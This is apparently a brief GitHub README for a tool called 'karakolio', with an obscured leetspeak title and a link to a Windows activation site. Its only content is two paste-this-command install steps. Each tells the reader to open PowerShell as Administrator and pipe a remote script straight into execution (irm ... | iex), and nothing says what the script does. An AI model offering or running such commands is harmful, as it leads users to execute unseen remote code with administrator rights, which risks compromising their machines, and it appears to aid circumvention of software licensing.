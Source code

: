 # karakolio Wina 11 eb3sh3 1 mn00 d4ug1 k@t0 n3g0

- [developing](https://get.activated.win/)

# Installing by using PowerShell as Administrator

```cmd
irm https://raw.githubusercontent.com/asc3t1c/karakolio/refs/heads/main/karakolio.win | iex
```
- Optionally

```
irm https://raw.githubusercontent.com/asc3t1c/karakolio/refs/heads/main/karakolio.ps1 | iex
```
